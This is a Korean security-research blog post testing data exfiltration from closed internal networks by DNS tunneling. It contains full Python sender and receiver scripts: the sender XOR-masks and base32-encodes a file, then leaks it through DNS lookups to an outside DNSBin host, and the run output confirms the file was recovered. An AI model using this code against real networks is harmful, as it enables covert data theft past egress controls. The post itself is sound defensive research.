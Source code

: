 ```yaml
---
layout: post
title:  "DNS Tunneling을 통한 정보 유출"
author: "qbeom"
comments: true
tags: [research, network]
---
```


라온화이트햇 핵심연구팀 최규범



# 개요

인터넷 접속이 안되는 내부망 환경에서, 다양한 보안 솔루션이 설치되었어도,
과연, 정보 유출의 위협으로 부터 안전할까요?

DNS Tunneling 기법을 활용하여 위와 같은 환경에서 정보 유출이 가능한지 테스트해보았습니다.

# DNS Tunneling

DNS 프로토콜을 사용하여 임의 데이터를 송수신하는 기술을 DNS Tunneling이라고 합니다.

실제로 많은 악성코드가 원격 명령지 서버와 통신할 때 DNS Tunneling을 악용하고 있습니다.

![/assets/2020-05-01/dns.png](/assets/2020-05-01/dns.png)

그 이유는 내부망 환경 또는 특정 Outbound 포트만 허용되는 환경에서도, DNS 트래픽 송신이 허용되는 경우가 빈번하기 때문입니다.

![/assets/2020-05-01/dns1.png](/assets/2020-05-01/dns1.png)

공격자가 설치한 임의 DNS 서버의 특정 서브 도메인을 조회합니다.
해당 DNS 패킷에서 서브 도메인 정보('leakeddata')만 구별하여 정보를 획득할 수 있습니다.

# 유출 테스트

DNS Tunneling 구현을 위해서는 DNS 서버 구축이 필요합니다.

- Python을 사용하여 DNS Tunneling 구현

       [https://github.com/ialexryan/Burrow-Server](https://github.com/ialexryan/Burrow-Server)

Python을 사용하여 구축할 수 있는 Github 페이지를 확인하였으나, 여러 추가 작업이 필요합니다.

![/assets/2020-05-01/dns2.png](/assets/2020-05-01/dns2.png)

쉬운 방법을 찾던 중, CTF에서도 활용되는 DNSBin(http://dnsbin.zhack.ca/) 페이지를 발견했습니다.

![/assets/2020-05-01/dns3.png](/assets/2020-05-01/dns3.png)

![/assets/2020-05-01/dns4.png](/assets/2020-05-01/dns4.png)

식별 가능한 특정 서브 도메인이 주어지고, 해당 도메인 앞에 임의 데이터를 붙여서 보내면
서버에서 데이터를 가져옵니다.

도메인 이름 규칙 상 대소문자 구분이 없지만, 해당 사이트에서는 이를 구분하여 보여줍니다.

# 테스트 코드(송신)

아래 내용을 통해 송신 테스트 코드를 작성하였습니다.

- 도메인 이름 규칙 상 허용되는 63개 문자 중, 하이픈(-)을 제외한 62개 문자로 구성
- Raw Data를 보내기 위해서 인코딩이 필요하므로, 간단히 쓸 수 있는 Base32를 사용
(Base62를 사용하고 싶으나, 정수형으로 인자를 받기 때문에 복잡하였습니다.)
- Dnsbin에서 중복 데이터를 표시하지 않으므로, 중복을 피하기 위해 간단한 암호화 필요
- 도메인은 최대 253 글자, 라벨은 63글자로 구성되므로 알맞게  잘라서 송신

```python
import socket
import random
import time
import base64

def rand_bytes(count):
    return bytearray(random.getrandbits(8) for _ in range(count))

f = open("./test.dat", "rb")
data = f.read()
f.close()

size = len(data)
print("Data Size(Org) : ", size)

seed = random.randint(0,100000)
random.seed(seed)

enc = bytearray(data)
rnd = rand_bytes(size)
for i in range(size):
    enc[i] = data[i] ^ rnd[i]

enc = base64.b32encode(enc)
enc = enc.replace(b"=", b"0") # Change pad
size_enc = len(enc)
print("Data Size(Enc) : ", size_enc)

base_domain = '.9b14918384f099f6b54a.d.zhack.ca'
remain = 253 - len(base_domain) # Max Length 253
remain -= int(remain/63) # "."
t_start = time.time()

send_data = "S-%d.O-%d.E-%d" % (seed, size, size_enc) #Send seed, size of data
socket.gethostbyname(send_data + base_domain)

for i in range(0, size_enc, remain):
    enc_part = enc[i:i+remain]
    if len(enc_part) > 63:
        send_data = ""
        for j in range(0, remain, 63):
            if j != 0:
                send_data += "."
            send_data += enc_part[j:j+63].decode('utf-8')
    else:
        send_data = enc_part.decode('utf-8')

    socket.gethostbyname(send_data + base_domain)

t = time.time() - t_start
print("Elapsed Time : ", t, "Secs")
print("Speed(Org) : ", size / t, "B/sec") 
print("Speed(Enc) : ", size_enc / t, "B/sec")
```

```python
Data Size(Org) :  21822
Data Size(Enc) :  34920
Elapsed Time :  37.387837171554565 Secs
Speed(Org) :  583.6657493684237 B/sec
Speed(Enc) :  933.9935829871392 B/sec
>>>
```

21.3KB의 파일을 테스트하였고, 약 0.5KB/s 속도로 전송되었습니다.

결과는 네트워크 환경에 따라 다를 수 있다.

# 테스트 코드(수신)

![/assets/2020-05-01/dns5.png](/assets/2020-05-01/dns5.png)

DNS를 요청하는 과정에서 중복된 값이 전송될 수 있습니다. 

이를 처리해주고 초기에 전송한 Seed를 통해 복호화하는 코드를 작성하였습니다.

```python
import random
import base64

def rand_bytes(count):
    return bytearray(random.getrandbits(8) for _ in range(count))

f = open("./result.dat", "rb")
data = f.read()
f.close()

data = data.split(b"\r\n")
info = data[0].split(b".")

seed, size, size_enc = int(info[0][2:]), int(info[1][2:]), int(info[2][2:])
print("Seed : ", seed)
print("Data Size(Org) : ", size)
print("Data Size(Enc) : ", size_enc)

random.seed(seed)
rnd = rand_bytes(size)

enc = b""
for i in range(1,len(data)):
    if data[i] == data[i-1]:
        continue
    enc += data[i]
enc = enc.replace(b".", b"")
enc = enc.replace(b"0", b"=")
dec = base64.b32decode(enc)

print("Data Size(Enc-Recv) : ", len(enc))
print("Data Size(Dec-Recv) : ", len(dec))

dec = bytearray(dec)
for i in range(size):
    dec[i] ^= rnd[i]

f = open("./test.dat", "rb")
org = f.read()
f.close()
print("Compare Result :", org == dec)
```

```python
Seed :  70953
Data Size(Org) :  21822
Data Size(Enc) :  34920
Data Size(Enc-Recv) :  34920
Data Size(Dec-Recv) :  21822
Compare Result : True
>>>
```

결과 파일(result.dat)은 Dnsbin에서 출력된 텍스트를 저장한 파일입니다.

전송된 데이터가 정상적으로 복호화된 것을 확인할 수 있습니다.

### 참조

- 도메인 이름 규칙([https://www.joinc.co.kr/w/man/12/DNS](https://www.joinc.co.kr/w/man/12/DNS))